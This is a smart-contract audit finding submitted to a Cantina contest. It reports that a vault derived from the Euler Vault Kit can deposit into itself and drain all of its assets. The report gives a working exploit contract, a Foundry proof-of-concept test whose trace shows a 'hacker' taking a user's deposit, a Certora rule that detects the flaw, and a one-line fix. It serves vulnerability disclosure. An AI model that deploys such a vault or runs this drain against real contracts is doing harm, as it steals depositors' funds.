 # EVK Vault module can Deposit to itself allowing to Drain all Assets

> link to cantina issue => https://cantina.xyz/code/41306bb9-2bb8-4da6-95c3-66b85e11639f/findings/38

## Relevant Context
A seemingly harmless SimpleVault inheriting from the EVK can drain all the Assets of the Vault.

## Finding Description
The EVK VaultModule can deposit into itself, causing an internal inconsistency between the actual Vault balance and `totalAssets()`.
(more precisely between `asset.balanceOf(address(vault))` and `vault.totalAssets()`), even without using any borrowing functionnality.

SimpleVault, a contract inheriting from EVault, that appears completely harmless on its own, can exploit this inconsistency by calling VaultModule code to drain all the Assets of the Vault.


**`SimpleVault` code:**
<details  open>


```solidity

// SPDX-License-Identifier: GPL-2.0-or-later
pragma solidity ^0.8.0;

import {EVault} from "src/EVault/EVault.sol";
import {IEVault} from "src/EVault/IEVault.sol";
import {Base} from "src/EVault/shared/Base.sol";

interface ISimpleVaultBase {
    function stake(uint256, address) external returns (uint256);
    function unstake(uint256, address, address) external returns (uint256);
}

interface ISimpleVault is IEVault, ISimpleVaultBase {}

contract SimpleVault is ISimpleVaultBase, EVault {
    constructor(Integrations memory integrations, DeployedModules memory modules) EVault(integrations, modules) {}

    /// Define aliases for 2 main Vault functions
    //  stake == deposit
    function stake(uint256 amount, address receiver) external returns (uint256) {
        return this.deposit(amount, receiver);
    }

    // unstake == withdraw
    function unstake(uint256 amount, address receiver, address owner) external returns (uint256) {
        return this.withdraw(amount, receiver, owner);
    }
}
```
</details>

The hack here is to call `this.deposit` and `this.withdraw` instead of `deposit` and `withdraw` to enable the Vault to be the actual caller. So depositing into itself, implying it's own balance unchanged (due to a transfer of Assets to itsef, sort of `transfer(from, to)` with `to == from`)

So anyone can call `stake` with `totalAssets()` amount, and then call `unstake` with the same amount, draining all the Assets of the Vault in 2 transactions.


## Impact Explanation
EVK is unsecure, and can't be used as is as a Kit. If anyone promote a Vault like `SimpleVault` or any other form of EVK derivated Vault, inheriting from `EVault`, extanding it with new modules or modifying existing EVK code, can exploit this weakness and steal all users funds deposited in the Vault, event if the Vault is permissionless.

Main concern here is that `SimpleVault` seems harmless, but use one invisible EVK weakness.


## Likelihood Explanation
As soon as this type of derivated Vault from EVK is deployed, it can be exploited.

The likelihood is high, as the code is public and the exploit is easy to understand and implement.

The only hurdle is to promote this malicious Vault, without audits (saying "it's only 2 lines of code added..."), to attract users and encourange them to deposit funds in it.

Impact is that all sort of Vault like `SimpleVault` derivated from the EVK can drain all the assets in 2 transactions.


## Proof of Concept
Weakness has been found via a Certora rule.

**Certora rule detecting the issue**
<details  open>

```solidity

// Shares are returned only and only if balance of actual caller strictly decrease
rule depositShares(env e, calldataarg args) {
  address caller = actualCaller(e);

  mathint _balanceCaller = userAssets(e, caller);
  uint256 shares = deposit(e, args);
  mathint balanceCaller_ = userAssets(e, caller);

  assert shares > 0 <=> balanceCaller_ < _balanceCaller;
}
```
</details>

This rule has counter examples only when `actualCaller == vault`, i.e. `shares > 0` without balance change

Here is a POC with a forge test, including traces and asserts:

**`DepositSelfHack` POC contract - File `test/contest/DepositSelfHack.sol`:**
<details>

```solidity

 // SPDX-License-Identifier: GPL-2.0-or-later
pragma solidity ^0.8.0;

import {SimpleVaultTest} from "./SimpleVault.t.sol";
import {ISimpleVault} from "src/EVault/SimpleVault.sol";
import {console2} from "forge-std/Test.sol";

contract DepositSelfHack is SimpleVaultTest {
    uint256 one = 1e18;
    address user = makeAddr("user");
    address hacker = makeAddr("hacker");

    function _log(string memory label) public view {
        console2.log(label, "| User   Balance :", assetTST.balanceOf(user));
        console2.log(label, "| Vault  Balance :", assetTST.balanceOf(address(eTST)));
        console2.log(label, "| Total  Assets  :", eTST.totalAssets());
        console2.log(label, "| Hacker Balance :", assetTST.balanceOf(hacker));
        console2.log("------------------------|-------------------------------------");
    }

    function test_depositSelfHack() public {
        assetTST.mint(user, one);
        _log("       User   Mint    1");

        hoax(user);
        assetTST.approve(address(eTST), one);

        assert(assetTST.balanceOf(address(eTST)) == 0);
        assert(assetTST.balanceOf(user) == one);
        assert(assetTST.balanceOf(hacker) == 0);

        hoax(user);
        eTST.deposit(one, user);
        _log("       User   Deposit 1");

        ISimpleVault(address(eTST)).stake(one, address(eTST));
        _log("Buggy  Vault  Deposit 1");

        ISimpleVault(address(eTST)).unstake(one, hacker, address(eTST));
        _log("Hacker Vault  Steal   1");

        assert(assetTST.balanceOf(address(eTST)) == 0);
        assert(assetTST.balanceOf(user) == 0);
        assert(assetTST.balanceOf(hacker) == one);
    }
}

```
</details>

**`SimpleVault` Test Setup - File `test/contest/SimpleVaultTest.sol`:**
<details>

```solidity
// SPDX-License-Identifier: GPL-2.0-or-later
pragma solidity ^0.8.13;

import {Test, console2, stdError} from "forge-std/Test.sol";
import {DeployPermit2} from "permit2/test/utils/DeployPermit2.sol";

import {GenericFactory} from "src/GenericFactory/GenericFactory.sol";

import {ProtocolConfig} from "src/ProtocolConfig/ProtocolConfig.sol";

import {Dispatch} from "src/EVault/Dispatch.sol";

import {Initialize} from "src/EVault/modules/Initialize.sol";
import {Token} from "src/EVault/modules/Token.sol";
import {Vault} from "src/EVault/modules/Vault.sol";
import {Borrowing} from "src/EVault/modules/Borrowing.sol";
import {Liquidation} from "src/EVault/modules/Liquidation.sol";
import {BalanceForwarder} from "src/EVault/modules/BalanceForwarder.sol";
import {Governance} from "src/EVault/modules/Governance.sol";
import {RiskManager} from "src/EVault/modules/RiskManager.sol";

// import {EVault} from "src/EVault/EVault.sol";
// import {ISimpleVault, IERC20} from "src/EVault/ISimpleVault.sol";
import {SimpleVault, ISimpleVault} from "src/EVault/SimpleVault.sol";

import {TypesLib} from "src/EVault/shared/types/Types.sol";
import {Base} from "src/EVault/shared/Base.sol";

import {EthereumVaultConnector} from "ethereum-vault-connector/EthereumVaultConnector.sol";

import {TestERC20} from "test/mocks/TestERC20.sol";
import {MockBalanceTracker} from "test/mocks/MockBalanceTracker.sol";
import {MockPriceOracle} from "test/mocks/MockPriceOracle.sol";
import {IRMTestDefault} from "test/mocks/IRMTestDefault.sol";
import {IHookTarget} from "src/interfaces/IHookTarget.sol";
import {SequenceRegistry} from "src/SequenceRegistry/SequenceRegistry.sol";

import {AssertionsCustomTypes} from "test/helpers/AssertionsCustomTypes.sol";

import "src/EVault/shared/Constants.sol";

contract SimpleVaultTest is AssertionsCustomTypes, Test, DeployPermit2 {
    EthereumVaultConnector public evc;
    address admin;
    address feeReceiver;
    address protocolFeeReceiver;
    ProtocolConfig protocolConfig;
    address balanceTracker;
    MockPriceOracle oracle;
    address unitOfAccount;
    address permit2;
    address sequenceRegistry;
    GenericFactory public factory;

    TestERC20 assetTST;

    ISimpleVault public eTST;

    address initializeModule;
    address tokenModule;
    address vaultModule;
    address borrowingModule;
    address liquidationModule;
    address riskManagerModule;
    address balanceForwarderModule;
    address governanceModule;

    Base.Integrations integrations;
    Dispatch.DeployedModules modules;

    function setUp() public virtual {
        admin = vm.addr(1000);
        feeReceiver = makeAddr("feeReceiver");
        protocolFeeReceiver = makeAddr("protocolFeeReceiver");
        factory = new GenericFactory(admin);

        evc = new EthereumVaultConnector();
        protocolConfig = new ProtocolConfig(admin, protocolFeeReceiver);
        balanceTracker = address(new MockBalanceTracker());
        oracle = new MockPriceOracle();
        unitOfAccount = address(1);
        permit2 = deployPermit2();
        sequenceRegistry = address(new SequenceRegistry());
        integrations =
            Base.Integrations(address(evc), address(protocolConfig), sequenceRegistry, balanceTracker, permit2);

        initializeModule = address(new Initialize(integrations));
        tokenModule = address(new Token(integrations));
        vaultModule = address(new Vault(integrations));
        borrowingModule = address(new Borrowing(integrations));
        liquidationModule = address(new Liquidation(integrations));
        riskManagerModule = address(new RiskManager(integrations));
        balanceForwarderModule = address(new BalanceForwarder(integrations));
        governanceModule = address(new Governance(integrations));

        modules = Dispatch.DeployedModules({
            initialize: initializeModule,
            token: tokenModule,
            vault: vaultModule,
            borrowing: borrowingModule,
            liquidation: liquidationModule,
            riskManager: riskManagerModule,
            balanceForwarder: balanceForwarderModule,
            governance: governanceModule
        });

        address evaultImpl = address(new SimpleVault(integrations, modules));

        vm.prank(admin);
        factory.setImplementation(evaultImpl);

        assetTST = new TestERC20("Test Token", "TST", 18, false);
        eTST = ISimpleVault(
            factory.createProxy(address(0), true, abi.encodePacked(address(assetTST), address(oracle), unitOfAccount))
        );
        eTST.setInterestRateModel(address(new IRMTestDefault()));
        eTST.setMaxLiquidationDiscount(0.2e4);
        eTST.setFeeReceiver(feeReceiver);
    }

    address internal SYNTH_VAULT_HOOK_TARGET = address(new MockHook());
    uint32 internal constant SYNTH_VAULT_HOOKED_OPS = OP_DEPOSIT | OP_MINT | OP_REDEEM | OP_SKIM | OP_REPAY_WITH_SHARES;

    function createSynthEVault(address asset) internal returns (ISimpleVault) {
        ISimpleVault v = ISimpleVault(
            factory.createProxy(address(0), true, abi.encodePacked(address(asset), address(oracle), unitOfAccount))
        );
        v.setInterestRateModel(address(new IRMTestDefault()));

        v.setInterestFee(1e4);

        v.setHookConfig(SYNTH_VAULT_HOOK_TARGET, SYNTH_VAULT_HOOKED_OPS);

        return v;
    }

    function getSubAccount(address primary, uint8 subAccountId) internal pure returns (address) {
        require(subAccountId <= 256, "invalid subAccountId");
        return address(uint160(uint160(primary) ^ subAccountId));
    }
}

contract MockHook is IHookTarget {
    error E_OnlyAssetCanDeposit();
    error E_OperationDisabled();

    function isHookTarget() external pure override returns (bytes4) {
        return this.isHookTarget.selector;
    }

    // deposit is only allowed for the asset
    function deposit(uint256, address) external view {
        address asset = ISimpleVault(msg.sender).asset();

        // these calls are just to test if there's no RO-reentrancy for the hook target
        ISimpleVault(msg.sender).totalBorrows();
        ISimpleVault(msg.sender).balanceOf(address(this));

        if (asset != caller()) revert E_OnlyAssetCanDeposit();
    }

    // all the other hooked ops are disabled
    fallback() external {
        revert E_OperationDisabled();
    }

    function caller() internal pure returns (address _caller) {
        assembly {
            _caller := shr(96, calldataload(sub(calldatasize(), 20)))
        }
    }
}

```
</details>

**`forge test --mt depositSelfHack -vv` produces this output:**
<details open>

```
 » forge test --mt depositSelfHack -vv
[⠒] Compiling...
No files changed, compilation skipped

Ran 1 test for test/contest/DepositSelfHack.t.sol:SimpleVault_DepositSelfHack
[PASS] test_depositSelfHack() (gas: 379373)
Logs:
         User   Mint    1 | User   Balance : 1000000000000000000
         User   Mint    1 | Vault  Balance : 0
         User   Mint    1 | Total  Assets  : 0
         User   Mint    1 | Hacker Balance : 0
  ------------------------|-------------------------------------
         User   Deposit 1 | User   Balance : 0
         User   Deposit 1 | Vault  Balance : 1000000000000000000
         User   Deposit 1 | Total  Assets  : 1000000000000000000
         User   Deposit 1 | Hacker Balance : 0
  ------------------------|-------------------------------------
  Buggy  Vault  Deposit 1 | User   Balance : 0
  Buggy  Vault  Deposit 1 | Vault  Balance : 1000000000000000000
  Buggy  Vault  Deposit 1 | Total  Assets  : 2000000000000000000
  Buggy  Vault  Deposit 1 | Hacker Balance : 0
  ------------------------|-------------------------------------
  Hacker Vault  Steal   1 | User   Balance : 0
  Hacker Vault  Steal   1 | Vault  Balance : 0
  Hacker Vault  Steal   1 | Total  Assets  : 1000000000000000000
  Hacker Vault  Steal   1 | Hacker Balance : 1000000000000000000
  ------------------------|-------------------------------------

Suite result: ok. 1 passed; 0 failed; 0 skipped; finished in 4.88ms (1.05ms CPU time)

Ran 1 test suite in 154.01ms (4.88ms CPU time): 1 tests passed, 0 failed, 0 skipped (1 total tests)
```
</details>

## Recommendation

To prevent this weakness, add a one line check to prevent the Vault from depositing to itself.

**`Vault.sol` `deposit` function - Lines 123-128 of File `src/EVault/modules/Vault.sol`:**
<details  open>

```diff
    /// @inheritdoc IERC4626
    function deposit(uint256 amount, address receiver) public virtual nonReentrant returns (uint256) {
        (VaultCache memory vaultCache, address account) = initOperation(OP_DEPOSIT, CHECKACCOUNT_NONE);
+       require(account != address(this), "Vault: cannot deposit to self");

        Assets assets = amount == type(uint256).max ? vaultCache.asset.balanceOf(account).toAssets() : amount.toAssets();
        if (assets.isZero()) return 0;

```

</details>